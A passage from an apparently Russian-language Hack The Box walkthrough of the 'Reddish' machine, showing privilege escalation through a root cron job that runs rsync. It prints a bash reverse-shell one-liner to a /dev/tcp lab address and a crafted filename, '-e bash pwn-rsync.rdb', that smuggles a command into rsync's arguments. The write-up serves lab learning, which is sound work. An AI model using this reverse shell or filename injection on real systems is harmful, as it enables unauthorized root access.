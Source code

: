 {:.center-image}

Могу поспорить, что скрипт выполняется по планировщику `cron`.

![www-cron-backupsh.png](/assets/images/htb/machines/reddish/www-cron-backupsh.png)
{:.center-image}

Класс, значит, он будет выполнен от имени root! Приступим к эксплуатации.

### Эскалация до root

Сперва в директории `/var/www/html/f187a0ec71ce99642e4f0afbd441a68b` создадим файл `pwn-rsync.rdb`, содержащий обычный реверс-шелл, которые мы сегодня видели уже сотню раз.

```bash
bash -c 'bash -i >& /dev/tcp/172.19.0.4/1337 0>&1'
```

После этого создадим еще один файл там же с оригинальным именем `-e bash pwn-rsync.rdb`. Листинг директории сетевой шары будет выглядеть таким образом в момент перед получением шелла.

```
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ ls
-e bash pwn-rsync.rdb
pwn-rsync.rdb
```

Теперь осталось открыть новую вкладку терминала и дождаться запуска задания `cron`.

![www-root-shell.png](/assets/images/htb/machines/reddish/www-root-shell.png)
{:.center-image}

И вот, у нас есть root-шелл!
